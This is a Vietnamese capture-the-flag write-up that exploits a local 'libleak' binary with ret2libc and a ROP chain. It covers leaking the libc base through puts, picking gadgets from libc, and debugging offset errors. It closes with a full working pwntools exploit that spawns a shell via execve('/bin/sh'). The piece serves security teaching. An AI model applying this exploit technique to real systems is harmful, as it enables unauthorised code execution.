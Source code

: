 # RET2LIBC + ROPchain

*đây là 1 bài của task3 nhưng được giải bằng cách khác kết hợp giữa **ret2libc và Ropchain***

**ida:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/cd1a157e-0ec9-45f5-a2e9-39280f4aa39d)


**checksec và vm:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/1a66371c-2fee-4ae3-b1c4-368fb103aa61)


**ở đây ta thấy PIE đóng nên ta có thể dùng được ROPchain**

nhưng mà ở đây lại xuất hiện 1 vấn đề đó là đề không cho ta đầy đủ các pop ta cần

![image](https://github.com/gookoosss/CTF.-/assets/128712571/7f011842-c7c8-44cf-a835-e60498242fac)


sau 1 một hồi suy nghĩ thì **ta còn 1 cách là lấy các pop rdx , pop rax  và syscall trong file libc mà đề cho sẵn** vì trong file libc ta đã có đầy đủ những ta cần 


![image](https://github.com/gookoosss/CTF.-/assets/128712571/011df66d-6844-4678-abef-26dab565f9ce)


ở đây thì ta lấy pop rdx và pop r12 là **0x000000000011f497**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/738f8cf4-83cd-40f0-a5f7-66e8ae929b69)


ta lấy pop rax là **0x0000000000045eb0**

oke bây giờ đã có đầy đủ các pop quan trọng mà mình cần rồi, bây giờ làm như dạng ropchain bình thường thôi

**lưu ý:**
- để có thể gán /bin/sh vào rdi từ file libc thì ta cần phải leak được địa chỉ base của libc
- để thuận tiện cho việc làm thì ta nên leak địa chỉ libc ra 
- ở bước này mình sẽ copy từ task3 để tiện, còn giải thích chi tiết thì ở bài task 3 nha



![image](https://github.com/gookoosss/CTF.-/assets/128712571/ef310a7d-00db-4110-869a-b87a4c91ea78)


oke bây giờ ta làm như bình thường theo cách ROPchain là được

![image](https://github.com/gookoosss/CTF.-/assets/128712571/fe3e3284-dc89-45b1-8fdc-c32372172d68)


chạy thử xem sao 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/224d4c1e-fb8d-45f7-aa9e-d8c18d0da048)




hmm ko như ta mong đợi rồi , debug lại xem sao 

**ta thử để ý r15 thì thấy nó đang chứa pop_rdx_r12** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/b1360ba2-b2f5-4a05-8152-76f04c7c54fd)


chứng tỏ là ta đã quên ko gán giá trị cho **r15** nên nó đã lấy **pop_rdx_r12** gán vào, sau đó hàm ret sẽ trả về địa chỉ 0 nên ko chính xác

**để giải quyết vấn đề ta cần gán giá trị cho r15 và r12(ở pop_rdx_r12) là p64(0) luôn** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/dfbd4d54-f0fd-47df-9c54-9773da614231)

chạy lại lần nữa xem sao

![image](https://github.com/gookoosss/CTF.-/assets/128712571/445aa5d5-c241-4bf6-aca6-13fe5078106d)


uầy lỗi tiếp rồi



**hmm như các bái ropchain khác thì bình thường hàm ret sẽ trả về địa chỉ của pop tiếp theo và chạy tiếp , nhưng ở đây thì hàm ret đã nhận được đúng địa chỉ của pop_rdx_r12 nhưng lại không chạy được**

***sau một hồi nghiên cứu thì mình hiểu được là:***

- ở đây **pop_rdx_r12** ko phải là 1 địa chỉ mà là 1 offset
- hàm ret nhận 1 cái offset không phải địa chỉ nên không hiểu và không trả vể
- cái **pop_rdx_r12** ta lấy ra từ file libc là 1 offset nên trỏ đến địa chỉ của pop rdx + r12 đúng thì ta cần lấy **địa chỉ base của libc + offset = địa chỉ pop**

địa chỉ base ta đã leak được ở trên nên ta dùng luôn **libc.address + offset tìm được trên libc = địa chỉ pop ta cần**


**script :** 


```
from pwn import *

p = process('./libleak_patched')
exe = ELF('./libleak_patched')
libc = ELF('libc.so.6')

pop_rdi = 0x0000000000401313


payload = b'a'*88 
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])

p.sendlineafter(b'Give me something useful: ', payload)

libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['puts']
log.info("libc leak: " + hex(libc_leak))
log.info("libc base: " + hex(libc.address))

gdb.attach(p, gdbscript = '''
b*main+158
c
''')

input()

pop_rsi_r15 = 0x0000000000401311
pop_rdx_r12 =  libc.address + 0x000000000011f497
pop_rax = libc.address +  0x0000000000045eb0
syscall = libc.address + 0x0000000000029db4
ret_addr  = 0x000000000040101a


payload = b'a'*88
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(pop_rsi_r15) + p64(0) + p64(0)

payload += p64(pop_rdx_r12) + p64(0) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)


p.sendlineafter(b'Give me something useful: ', payload)


p.interactive()
```

chạy lại thử xem sao 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/dbfbb205-b91a-485e-a97a-b8c23311f839)


**đến đây ta ko còn lỗi trên nữa nè** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/a219dfa0-0136-485d-ba7d-d9619296b791)


ra được rồi hehe





